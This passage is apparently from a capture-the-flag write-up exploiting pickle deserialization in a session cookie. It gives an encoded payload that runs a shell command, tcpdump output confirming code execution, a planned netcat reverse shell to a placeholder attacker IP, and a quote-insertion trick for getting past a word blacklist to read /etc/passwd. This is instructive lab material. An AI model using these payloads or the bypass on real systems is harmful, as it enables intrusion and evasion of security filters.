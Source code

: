 ```shell
python3

Python 3.10.7 (main, Oct  1 2022, 04:31:04) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import util.auth
>>> s = util.auth.cookieToSession('gASVLgAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjBNwaW5nIC1jIDUgMTI3LjAuMC4xlIWUUpQu')
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.044 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.042 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.041 ms
64 bytes from 127.0.0.1: icmp_seq=4 ttl=64 time=0.041 ms
64 bytes from 127.0.0.1: icmp_seq=5 ttl=64 time=0.041 ms

--- 127.0.0.1 ping statistics ---
5 packets transmitted, 5 received, 0% packet loss, time 4076ms
rtt min/avg/max/mdev = 0.041/0.041/0.044/0.001 ms

```

...and run `tcpdump` to capture the ICMP packets so we can confirm the RCE:

```shell
sudo tcpdump -i lo

tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on lo, link-type EN10MB (Ethernet), snapshot length 262144 bytes
15:28:15.131656 IP view-localhost > view-localhost: ICMP echo request, id 63693, seq 1, length 64
15:28:15.131668 IP view-localhost > view-localhost: ICMP echo reply, id 63693, seq 1, length 64
15:28:16.135472 IP view-localhost > view-localhost: ICMP echo request, id 63693, seq 2, length 64
...

```

#### Running against the Target

With the RCE confirmed, let's go for a reverse shell. For this we will want to run `nc -nv <ATTACKER_IP> 9999 -e /bin/sh` on the machine, but the words `nc` and `/sh` are blacklisted. There are many ways we can get around this, one of which is a very simple [trick](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Command%20Injection/README.md#bypass-blacklisted-words): we can insert single quotes into the blacklisted words. The filter will not detect them anymore, and the shell will ignore them when executing the command. For example:

```shell
h'e'ad /e't'c/p'a's's'wd

root:x:0:0:root:/root:/usr/bin/zsh
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin

```

